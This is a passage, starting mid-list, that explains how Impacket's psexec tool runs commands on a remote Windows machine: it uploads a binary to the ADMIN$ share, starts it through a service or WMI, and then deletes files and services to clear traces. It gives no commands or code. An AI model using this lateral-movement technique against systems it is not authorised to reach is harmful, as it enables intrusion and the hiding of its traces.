3. **Execution Upload**: It then uploads a small EXE or DLL file to the ADMIN$ share of the target system (usually `C:\Windows`), which is used to initiate the remote execution.
4. **Remote Execution**: The uploaded binary file is executed by creating a service or using Windows management instruments such as WMI, thereby running the user-specified command or program on the target machine.
5. **Cleanup**: After execution, the tool typically removes the uploaded files and stops or deletes the created service to clean up its traces.

The `psexec` tool in Impacket is highly versatile, capable of executing remote processes using different techniques and methods, such as using WMI, services, or DCOM. It's a common tool in the toolbox of penetration testers and system administrators. However, as with all powerful tools, it should be used with caution, ensuring compliance with relevant security policies and legal regulations.
